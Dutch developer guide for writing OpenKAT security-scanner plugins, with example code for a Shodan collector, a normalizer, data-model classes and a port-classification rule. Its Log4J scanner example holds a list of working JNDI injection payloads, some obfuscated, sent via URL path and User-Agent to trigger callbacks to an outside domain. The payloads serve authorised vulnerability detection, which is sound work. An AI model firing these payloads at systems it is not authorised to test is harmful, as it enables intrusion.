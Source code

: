 
== Plugins voor OpenKAT: boefjes, whiskers en bits

OpenKAT is modulair en kan eenvoudig worden uitgebreid. Deze handleiding geeft een eerste aanzet voor de ontwikkeling van nieuwe plugins. OpenKAT komt met een KATalogus met boefjes, die via de front end van het systeem in te zien zijn. Uitgangspunt is dat alle informatie in de kleinste eenheid wordt verwerkt en opgeslagen, wat het modulaire karakter van OpenKAT waarborgt. 

Deze handleiding legt uit hoe de plugins werken en hoe ze worden gemaakt, en geeft een overzicht van welke plugins er al zijn. De handleiding gaat uit van OpenKAT 1.3.0, aangezien de boefjes en normalizers hierin worden vereenvoudigd. 

Deze handleiding overlapt deels met de functionele documentatie, die hier te vinden is: 

link:functioneel[Functionele documentatie]

=== Welke soorten plugins zijn er?

Er zijn drie soorten, die door OpenKAT worden ingezet om informatie te verzamelen, in objecten voor het datamodel te vertalen en vervolgens te analysen. Boefjes verzamelen feiten, Whiskers structureren de informatie voor het datamodel en Bits bepalen wat je ervan wilt vinden; het zijn de businessrules. Elke actie wordt in zo klein mogelijke stukken geknipt. 

* Boefjes:
** verzamelen feitelijke informatie, bijvoorbeeld door het aanroepen van een externe scantool als nmap of door een database zoals shodan te gebruiken. 
** link:https://github.com/minvws/nl-kat-boefjes/tree/main/boefjes[Overzicht boefjes]
* Whiskers: 
** analyseren de informatie en maken er objecten van voor het datamodel in Octopoes
** zijn opgenomen in de boefjes
* Bits:
** bevatten de businessrules die de analyse doen op de objecten. 
** link:https://github.com/minvws/nl-kat-octopoes/tree/main/bits[Overzicht bits]

Boefjes en Whiskers zijn aan elkaar gekoppeld. De informatie die een boefje oplevert wordt naar een of meerdere whiskers gestuurd om de objecten eruit te halen. De Bits zijn gekoppeld aan objecten en beoordelen als het ware 'vanaf de andere kant' het datamodel. 

=== Hoe werken ze samen? 

Een hostname die als object aan OpenKAT wordt gegeven, wordt door de bijpassende boefjes als input voor een zoekactie gebruikt. De hostname past in het datamodel, en de boefjes worden ingezet om de met de hostname samenhangende objecten uit het datamodel op te zoeken. In de praktijk leidt dit tot een scan van alle bijbehorende systemen, zodat een beeld ontstaat van het netwerk waar de hostname naartoe wijst. Dit beeld bestaat als objecten in het datamodel in Octopoes. 

De scan wordt gedaan door de boefjes, alle informatie wordt door whiskers genormaliseerd en in objecten omgezet. Deze objecten leiden weer tot de inzet van nieuwe boefjes, die op zoek gaan naar aanpalende objecten in het datamodel. Zo is OpenKAT een soort sneeuwbal die aan de hand van het datamodel door het netwerk rolt. De logische verbanden tussen objecten wijzen de weg en OpenKAT zoekt steeds nieuwe boefjes uit tot het model compleet is. 

De nieuwe objecten in het datamodel worden beoordeeld door Bits, de businessrules. Dit levert bevindingen op, die als objecten worden toegevoegd. Zo hoort bij de hostname een dns configuratie, die aan bepaalde eisen moet voldoen. Er is bijvoorbeeld wel of niet sprake van DNSSEC of er zijn bepaalde configuratiefouten gemaakt. De Bits die hierover gaan voegen de bevindingen toe als objecten in Octopoes. 

=== Waar beginnen? 

De eerste vraag is: 'welke kwetsbaarheid wil ik aanwijzen en welke informatie heb ik daarvoor nodig?'. Als je dit weet zijn er een aantal opties: 

. de informatie is al aanwezig in het datamodel -> maak een businessrule (bit)
. de informatie is aanwezig in de output van een bestaand boefje -> maak een normalizer (whiskers) 
. de informatie is nog niet beschikbaar -> maak een boefje, pas het datamodel aan en maak een normalizer

Er zijn een paar uitgangspunten: 

. Wil je feitelijke informatie toevoegen, gebruik een Boefje. 
. Wil je een mening of analyse toevoegen, gebruik een Bit

OpenKAT gaat er vanuit dat je alle informatie in zo klein mogelijke eenheden verzamelt en verwerkt, zodat deze ook weer kunnen bijdragen aan andere combinaties en resultaten. Zo behoud je het modulaire karakter van het pakket. 

Om een bevinding te maken over een CVE bij een software versie heb je een string aan objecten: het aantreffen van de software, de versie, de CVE. Die combinatie leidt dan tot het object van de bevinding. 

=== Hoe werken Boefjes? 

Een Boefje is een plugin voor OpenKAT die informatie ophaalt door een externe tool aan te roepen of zelf informatie op te vragen. Hierdoor zijn boefjes eenvoudig en licht, zelf te programmeren en aanpasbaar. Als je weet in waar de informatie zit die je wilt ophalen is het eenvoudig hier een boefje voor te schrijven.  Een boefje bestaat uit een aantal bestanden, waarin de verschillende onderdelen zijn opgenomen. 

==== Bestaande boefjes

De bestaande boefjes zijn te bekijken via de KAT-alogus in OpenKAT, maar kunnen ook op github gevonden worden op:

link:https://github.com/minvws/nl-kat-boefjes/tree/main/boefjes[Overzicht boefjes]

==== Voorbeeld: het boefje voor shodan

Het boefje dat shodan aanroept geeft een goede eerste indruk van de mogelijkheden. Het boefje omvat de volgende bestanden. 

* __init.py__, dat leeg blijft, 
* boefje.json, met de normalizers en de objecten in het datamodel,
* cover.jpg, met een bijpassende kattenfoto ten behoeve van de KAT-alogus
* description.md, eenvoudige documentatie van het boefje
* main.py, het eigenlijke boefje
* normalize.py, de normalizer (whiskers)
* normalizer.json, wat accepteert en levert de normalizer
* requirements.txt, met de benodigdheden voor dit boefje
* schema.json, settings voor de webinterface

===== boefje.json 

boefje.json is de definitie van het boefje, met de positie in het datamodel, de bijbehorende normzalizer, de objecten en de bevindingen die de combinatie van boefje en normalizer kan aanleveren. 

De objecten die bij dit boefje horen zijn IPAddressV4, IPAddressV6, Finding, CVEFindingType. Dit boefje consumeert IP-adressen en produceert findings over de open poorten, aangevuld met de informatie over deze poorten.

Bij Shodan hoort een API key, die je in de webinterface kunt toevoegen. 

....

    {
        "id": "shodan",
        "name": "Shodan",
        "description": "Use Shodan to find open ports with vulnerabilities that are found on that port",
        "consumes": [
            "IPAddressV4",
            "IPAddressV6"
        ],
        "produces": [
            "Finding",
            "IPPort",
            "CVEFindingType"
        ],
        "environment_keys": ["SHODAN_API"],
        "scan_level": 1
    }
....


Met de template als basis kun je zelf een boefje.json aanmaken voor je eigen boefje. De template begint met de naam van je nieuwe boefje: 

....

#replace with your own boefje information
    {
        "id": "boefje",
        "name": "Boefje",
        "description": "Beschrijving",

....

Je boefje verzamelt informatie om er objecten van te maken. Geef de objecten aan die je boefje nodig heeft. Die objecten komen uit het datamodel. Mocht de informatie die je wilt ophalen nog niet in het datamodel zijn verwerkt moet je dit apart aanpassen. Verderop in dit document is in grote lijnen beschreven hoe dit werkt. 

....
        "consumes": [
            "object uit het datamodel",
            "nog een object uit het datamodel"
        ],
        "produces": [
            "informatie",
            "informatie"
        ],
....

Het boefje kan ook variabelen meenemen uit de webinterface, zoals bij Shodan de API key. Er zijn meer mogelijkheden, je kunt hier creatief mee zijn en de eindgebruiker settings laten meegeven vanuit de webinterface. 

....
        "environment_keys": ["SHODAN_API"],
        "scan_level": 1
....

===== schema.json

Om de gebruiker informatie te laten toevoegen via de webinterface voeg je het bestand schema.json toe aan de map waar je boefje staat. Deze json wordt gebruikt als basis voor een formulier voor de gebruiker. In dit geval kan deze er een API key in kwijt, maar het kan ook iets anders zijn waar je boefje op reageert. Dit Schema moet voldoen aan de https://json-schema.org/ standaard. Momenteel begrijpt OpenKAT echter alleen vrij ondiepe structuren. Zo worden niet alle veldtypes ondersteund, en begrijpt OpenKAT ook geen referenties. Of jouw Schema netjes wordt begrepen kun je testen door het settings-formulier in Rocky's KAT-alogus te bekijken voor jouw boefje.

....

{
  "title": "Arguments",
  "type": "object",
  "properties": {
    "SHODAN_API": {
      "title": "SHODAN_API",
      "maxLength": 128,
      "type": "string",
      "description": "A Shodan API key (see https://developer.shodan.io/api/requirements)."
    }
  },
  "required": [
    "SHODAN_API"
  ]
}
....

===== main.py 

Het boefje importeert zelf de shodan api module, geeft daar een IP adres aan en accepteert de output. Deze output gaat naar Bytes en wordt door een (of meer) normalizers geanalyseerd. 

....
import json
from typing import Tuple, Union

import shodan

from os import getenv
from boefjes.job_models import BoefjeMeta


def run(boefje_meta: BoefjeMeta) -> Tuple[BoefjeMeta, Union[bytes, str]]:

    api = shodan.Shodan(getenv("SHODAN_API"))
    input_ = boefje_meta.arguments["input"]
    ip = input_["address"]
    results = api.host(ip)

    return boefje_meta, json.dumps(results)
....

In de template is dit als volgt weergegeven: 

....
import json
from typing import Tuple, Union
from job import BoefjeMeta


def run(boefje_meta: BoefjeMeta) -> Tuple[BoefjeMeta, Union[bytes, str]]:
    """
    Here you can place the code of your boefje.
    First step would be to extract the relevant information from the input OOI.
    For example, if the input OOI is a Hostname, you would want to extract the name of that hostname with:
    name = input_["name"].

    Then you can scan with that information. At the end, make sure this method returns a Tuple of BoefjeMeta and bytes or str.
    """
    input_ = boefje_meta.arguments["input"]

    #Place you code here

    return boefje_meta, json.dumps(results)
....

=== Hoe vertaal ik deze informatie in objecten: normalizers

Een boefje haalt informatie op en geeft die aan een of meerdere normalizers, genaamd Whiskers. De normalizer importeert de informatie uit Bytes, vertaalt het in objecten en geeft ze aan Octopoes. Sinds OpenKAT 1.3.0 zijn de normalizers volledig zelfstandig. Ze bestaan uit de volgende bestanden: 

* __init__.py
* normalize.py
* normalizer.json

==== normalizer.json

De normalizers vertalen de output van een boefje naar objecten die in het datamodel passen. Per normalizer wordt gedefinieerd welke input ze accepteren en wat ze leveren. In het geval van de shodan normalizer gaat het om de gehele output van het shodan boefje (gemaakt op basis van IP adres), waar bevindingen en poorten uitkomen. De normalizer.json definieert deze:

....
{
    "id": "kat_shodan_normalize",
    "consumes": [
        "shodan"
    ],
    "produces": [
        "Finding",
        "IPPort",
        "CVEFindingType"
    ]
}
....

==== normalize.py

Het bestand normalize.py bevat de eigenlijke normalizer. 

....
import json
from typing import Iterator, Union

from octopoes.models import OOI, Reference
from octopoes.models.ooi.findings import CVEFindingType, Finding
from octopoes.models.ooi.network import IPPort, Protocol, PortState

from boefjes.job_models import NormalizerMeta


def run(normalizer_meta: NormalizerMeta, raw: Union[bytes, str]) -> Iterator[OOI]:
    results = json.loads(raw)
    ooi = Reference.from_str(normalizer_meta.boefje_meta.input_ooi)

    for scan in results["data"]:
        port_nr = scan["port"]
        transport = scan["transport"]

        ip_port = IPPort(
            address=ooi,
            protocol=Protocol(transport),
            port=int(port_nr),
            state=PortState("open"),
        )
        yield ip_port

        if "vulns" in scan:
            for cve, _ in scan["vulns"].items():
                ft = CVEFindingType(id=cve)
                f = Finding(finding_type=ft.reference, ooi=ip_port.reference)
                yield ft
                yield f
....


=== Boefjes maken: Wat moet ik vooraf weten? 

Met de voorbeelden kun je aan de slag. Als je zelf een boefje wilt maken stel je jezelf dan de volgende vragen: 

* Welke objecten wil ik vinden, waar staan ze in het datamodel?
* Welke tool is hiervoor geschikt en hoe spreek ik die aan?
* Welke output krijg ik en hoe vertaal ik die in een object?

Wil je een object toevoegen dan moet je weten met welke andere objecten er een logische relatie is. Een object is zo eenvoudig mogelijk. Daardoor explodeert een schijnbaar eenvoudige vraag soms in een hele boom aan onderdelen. 

==== Objecten toevoegen aan het datamodel

Objecten toevoegen aan het datamodel vraagt om een aanvulling in octopoes. Hier kan een object worden toegevoegd als het in verbinding staat met andere objecten. Visueel is dit goed te begrijpen met behulp van de link:https://mispo.es/model-explorer/model-explorer.html[Graph explorer]. 

De eigenlijke code staat hier: 

https://github.com/minvws/nl-kat-octopoes/tree/main/octopoes/models/ooi 

Zoals bij het boefje voor shodan gebruiken we hier weer het voorbeeld uit de functionele documentatie. Een omschrijving van een object in het datamodel, in dit geval een IPPort, ziet er als volgt uit: 

....
class IPPort(OOI):
    object_type: Literal["IPPort"] = "IPPort"

    address: Reference = ReferenceField(IPAddress, max_issue_scan_level=0, max_inherit_scan_level=4)
    protocol: Protocol
    port: conint(gt=0, lt=2 ** 16)
    state: Optional[PortState]

    _natural_key_attrs = ["address", "protocol", "port"]
    _reverse_relation_names = {"address": "ports"}
    _information_value = ["protocol", "port"]
....

Hier is gedefinieerd dat bij een IPPort een IPadress hoort, een Protocol en een PortState. Ook is er aangegeven hoe de scan levels door dit object voortvloeien en zijn de attributen die de primary/natural key opmaken aangegeven: "_natural_key_attrs = ["address", "protocol", "port"]". Over scan levels / vrijwaringen volgt verderop in dit document meer uitleg. 

De PortState die wordt aangeroepen is apart gedefinieerd. Dit kan bij informatie die een heel specifiek karakter heeft zodat je dit kunt omschrijven. 

....
class PortState(Enum):
    OPEN = "open"
    CLOSED = "closed"
    FILTERED = "filtered"
    UNFILTERED = "unfiltered"
    OPEN_FILTERED = "open|filtered"
    CLOSED_FILTERED = "closed|filtered"
....

==== Voorbeeld: Contractuele aspecten van de hostname

Als je OpenKAT wilt gebruiken om niet alleen technische maar ook contractuele risicos in kaart te brengen biedt het framework er de ruimte voor. Of een systeem nu gehackt wordt of dat je domeinregistratie verloopt maakt voor de gebruiker weinig uit: die kan er niet bij. 
Op dit moment zijn contracten nog geen onderdeel van het datamodel, al is dat wel een wens want het is relevant. Daarom hier een gedachtenexperiment, om je mee te nemen in het uitbreiden van OpenKAT ten behoeve van je eigen organisatie. 

Laten we beginnen bij het voorbeeld van de hostname. Hierbij hoort een domeinnaam met een overeenkomst met een registrar, met een contractpartij, contactgegevens, contractvoorwaarden, een start- en einddatum, betalingsvorm en betalingstermijn. De betaling is weer gekoppeld aan een bankrekening en aan overschrijvingen, die via de financiele administratie te benaderen zijn. 

Om dit in OpenKAT te realiseren moet de informatie in de organisatie worden gevonden, in objecten worden verdeeld en moeten er bij alle objecten passende businessrules worden geschreven. Zo is het contract met de registrar vrij eenvoudig. Het heeft zeker de volgende objecten: 

* Hostname
* Startdatum
* Einddatum
* Kosten per periode
* Registrar
* Contactgegevens (uitgesplitst)
* Bankgegevens
* KvK nummer
* BTW nummer

Deze objecten kunnen worden opgenomen, maar geven buiten de einddatum nog geen informatie over het administratieve risico van wanbetaling door de eigen organisatie. Hiervoor moeten ook de facturen worden betrokken. De registrar stuurt immers facturen voor de geleverde dienst en die moeten worden voldaan. Als nu een factuur binnenkomt kan deze door een boefje worden opgehaald, door een normalizer geanalyseerd en toegevoegd aan het systeem. 

Hier horen zeker de volgende objecten bij, aanvullend aan de gegevens uit het contract: 

* Factuurnummer
* Factuurdatum
* Bedrag
* Betaaltermijn

Om te weten of een factuur voldaan is moet worden gekeken naar de financiele administratie. Ook hier kan een boefje voor gemaakt worden. Er komen maar enkele nieuwe objecten bij, want alle andere gegevens hadden we al uit de eerdere stappen. 

* Bank
* Eigen bankrekening
* Type overmaking
* Overschrijvingsdatum

De bank, bankrekening en type overmaking zijn te specificeren uit een lijst, zoals de IPports in het voorbeeld hierboven. Het is mogelijk om via een businessrule bij een binnenkomende factuur van een vaste contractpartner een bevinding aan te maken voor wijzigingen in bijvoorbeeld de bankrekening of in het bedrag. Zolang alle objecten logisch met elkaar verbonden zijn is het te gebruiken voor analyse van de gegevens. 

==== Welke tool gebruik ik hiervoor? 

In het voorbeeld hierboven is het ophalen van de contracten uit de contractadministratie en de facturen uit de financiele administratiesterk afhankelijk van de inrichting daarvan. Wordt binnenkomende post automatisch met OCR in een systeem opgenomen of ingevoerd, staat het een mapje op een netwerkschijf of is hier kantoorautomatisering voor ingericht?  

Boefjes kunnen ook in python geprogrammeerd worden om basale taken uit te voeren, hiervoor is niet per se een externe tool nodig. Een boefje dat gebruik maakt van deze mogelijkheid is het boefje dat op LOG4J scant en een eenvoudige scan uitvoert conform de CVE. Op een vergelijkbare manier kan ook kantoorautomatisering worden aangesproken, als deze niet van zichzelf al over een API beschikt. Het voorbeeld van LOG4J staat hieronder en geeft een beeld van de mogelijkheden die binnen OpenKAT bestaan: 

....
import json
import logging
from base64 import b64encode
from typing import Tuple, Union, Optional, Dict
from urllib.parse import urlparse

import requests
import urllib3

from boefjes.job_models import BoefjeMeta

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
logging.basicConfig(level=logging.INFO)

TIMEOUT = 15
REPLY_FQDN = "cve.stillekat.nl"


def run(boefje_meta: BoefjeMeta) -> Tuple[BoefjeMeta, Union[bytes, str]]:
    input_ = boefje_meta.arguments["input"]
    host = input_["name"]

    identifier = boefje_meta.id

    schemes = ["http", "https"]

    output = {}
    for scheme in schemes:
        url = f"{scheme}://{host}/"
        payloads = get_payloads(url, REPLY_FQDN, identifier)

        checks = [check(url, payload, TIMEOUT) for payload in payloads.values()]
        header_checks = [check_with_header(url, "User-Agent", payload, TIMEOUT) for payload in payloads.values()]

        output[scheme] = {
            "checks": dict(zip(payloads.keys(), checks)),
            "header_checks": dict(zip(payloads.keys(), header_checks)),
        }

    return boefje_meta, json.dumps(output).encode()


def check_with_header(url_input: str, header_name: str, payload: str, timeout: int) -> Optional[str]:

    try:
        response = requests.get(url_input, headers={header_name: payload}, verify=False, timeout=timeout)

        return b64encode(response.content).decode()
    except requests.exceptions.ConnectionError as e:
        logging.error(f"HTTP connection to {url_input} URL error: {e}")


def check(url_input: str, payload: str, timeout: int) -> Optional[str]:
    try:
        response = requests.get(f"{url_input}{payload}", verify=False, timeout=timeout)

        return b64encode(response.content).decode()
    except requests.exceptions.ConnectionError as e:
        logging.error(f"HTTP connection to {url_input} URL error: {e}")


def get_payloads(url_input: str, reply_host: str, identifier: str) -> Dict[str, str]:
    payloads = [
        "${{jndi:ldap://{}/test.class}}",
        "${{jndi:dns://{}:53/test.class}}",
        "${{jndi:rmi://{}:1099/test.class}}",
        "${{${{::-j}}ndi:rmi://{}/test.class}}",
        "${{${{::-j}}${{::-n}}di:rmi://{}/test.class}}",
        "${{${{::-j}}${{::-n}}${{::-d}}i:rmi://{}/test.class}}",
        "${{${{::-j}}${{::-n}}${{::-d}}${{::-i}}:rmi://{}/test.class}}",
        "${{${{::-j}}${{::-n}}${{::-d}}${{::-i}}:${{::-r}}mi://{}/test.class}}",
        "${{${{::-j}}${{::-n}}${{::-d}}${{::-i}}:${{::-r}}${{::-m}}i://{}/test.class}}",
        "${{${{::-j}}${{::-n}}${{::-d}}${{::-i}}:${{::-r}}${{::-m}}${{::-i}}://{}/test.class}}",
    ]

    url_parsed = urlparse(url_input)
    combined = f"{identifier}.{url_parsed.hostname}.{reply_host}"
    filled_payloads = [payload.format(combined) for payload in payloads]

    return dict(zip(payloads, filled_payloads))

....
















===== Bits: businessrules om objecten te beoordelen

De Bits zijn businessrules die objecten beoordelen. Welke poorten mogen openstaan, welke niet, welke softwareversie is acceptabel, welke niet. Voldoet een systeem als geheel aan een set eisen die hoort bij een bepaalde certificering of niet? 

De gedachtenoefening hierboven met de contracten bij een domeinnaam levert ook een aantal nieuwe Bits op, die interessant zijn om het concept uit te leggen. Als je naar het contractuele risico van een domeinregistratie kijkt komen bijvoorbeeld de volgende items naar voren, die een businessrule zouden kunnen zijn: 

* registrar moet overeenkomen met de registrars op een bepaalde lijst
* als datum einde contract binnen minder dan 2 maanden is, maak een bevinding
* als een factuur beschikbaar is maar nog niet betaald, maak een bevinding (niet critical)
* als een factuur na de betaaltermijn nog niet is betaald, maak een bevinding (critical)
* als de bankrekening op de factuur niet overeenkomt met die op het contract, maak een bevinding (critical)

In OpenKAT zijn de contracten nog niet, maar de technische aspecten wel geimplementeerd. In het voorbeeld van de hostname levert die een IP adres op, en op basis van het IP adres wordt gekeken welke poorten open zijn. Daar zijn een aantal poorten bij die open horen te zijn omdat er bepaalde software draait en poorten die dicht horen te zijn omdat ze vanuit veiligheids- of configuratieoogpunt niet gebruikt worden. 

Het voorbeeld hieronder komt uit de functionele documentatie en gaat in op de Bit voor het object IPPort. De bit die voor de analyse van openstaande poorten gebruikt wordt bestaat uit drie bestanden: 

* __init.py__, een leeg bestand
* bit.py, dat de structuur definieert
* port_classification.py, dat de businessrules bevat

Bit.py geeft de structuur van de bit, met de input en de businessrules waartegen wordt getoetst. Een voorbeeld is hieronder opgenomen. De bit accepteert input die hoort bij de objecten IPPort en IPAddress. Vervolgens wordt de module port_classification aangeroepen, waar de businessrules in staan.

....
from bits.definitions import BitParameterDefinition, BitDefinition
from octopoes.models.ooi.network import IPPort, IPAddress

BIT = BitDefinition(
    id="port-classification",
    consumes=IPPort,
    parameters=[],
    module="bits.port_classification.port_classification",
)
....

De businessrules zijn opgenomen in de module port_classification, in het bestand port_classification.py. Deze bit pakt het object IPPort en levert de objecten KATFindingType en Finding. De businessrules onderscheiden in dit geval drie typen poorten: de COMMON_TCP_PORTS die open mogen staan, SA_PORTS die voor beheersdoeleinden zijn en dicht horen te staan en DB_PORTS die op de aanwezigheid van bepaalde databases wijzen en dicht horen te staan. 

De specificatie voor een bit is ruim, maar beperkt door het datamodel. Boefjes halen extern informatie op, bits kijken alleen naar de objecten in Octopoes. Aan de hand van de analyse van de informatie kunnen vervolgens nieuwe objecten worden aangemaakt, zoals de KATFindingTypes die weer corresponderen met een reeks aan specifieke meldingen in OpenKAT. 

....
from typing import List, Iterator

from octopoes.models import OOI
from octopoes.models.ooi.findings import KATFindingType, Finding
from octopoes.models.ooi.network import IPPort

COMMON_TCP_PORTS = [25, 53, 110, 143, 993, 995, 80, 443]
SA_PORTS = [21, 22, 23, 3389, 5900]
DB_PORTS = [1433, 1434, 3050, 3306, 5432]


def run(
    input_ooi: IPPort,
    additional_oois: List,
) -> Iterator[OOI]:

    port = input_ooi.port
    if port in SA_PORTS:
        open_sa_port = KATFindingType(id="KAT-560")
        yield open_sa_port
        yield Finding(
            finding_type=open_sa_port.reference,
            ooi=input_ooi.reference,
            description=f"Port {port} is a system administrator port and should not be open.",
        )

    if port in DB_PORTS:
        ft = KATFindingType(id="KAT-561")
        yield ft
        yield Finding(
            finding_type=ft.reference,
            ooi=input_ooi.reference,
            description=f"Port {port} is a database port and should not be open.",
        )

    if port not in COMMON_TCP_PORTS and port not in SA_PORTS and port not in DB_PORTS:
        kat = KATFindingType(id="KAT-562")
        yield kat
        yield Finding(
            finding_type=kat.reference,
            ooi=input_ooi.reference,
            description=f"Port {port} is not a common port and should possibly not be open.",
        )
....

Bits kunnen patronen herkennen en daaruit objecten afleiden. De Bit voor internet.nl kan zo uit een serie objecten afleiden of een bepaalde site aan de eisen van internet.nl voldoet of niet. Deze bit haalt uit een reeks items de findings op en trekt op basis daarvan conclusies. De analyse die hieraan ten grondslag ligt wordt opgebouwd uit kleine stappen, die in OpenKAT een aantal keer rondgaan voordat er genoeg informatie beschikbaar is om de juiste conclusies te trekken. 

....
from bits.definitions import BitParameterDefinition, BitDefinition
from octopoes.models.ooi.dns.zone import Hostname
from octopoes.models.ooi.findings import Finding
from octopoes.models.ooi.web import Website

BIT = BitDefinition(
    id="internet-nl",
    consumes=Hostname,
    parameters=[
        BitParameterDefinition(ooi_type=Finding, relation_path="ooi"),  # findings on hostnames
        BitParameterDefinition(ooi_type=Finding, relation_path="ooi.website.hostname"),  # findings on resources
        BitParameterDefinition(ooi_type=Finding, relation_path="ooi.resource.website.hostname"),  # findings on headers
        BitParameterDefinition(ooi_type=Finding, relation_path="ooi.hostname"),  # findings on websites
        BitParameterDefinition(ooi_type=Finding, relation_path="ooi.netloc"),  # findings on weburls
        BitParameterDefinition(ooi_type=Website, relation_path="hostname"),  # only websites have to comply
    ],
    module="bits.internetnl.internetnl",
)
....





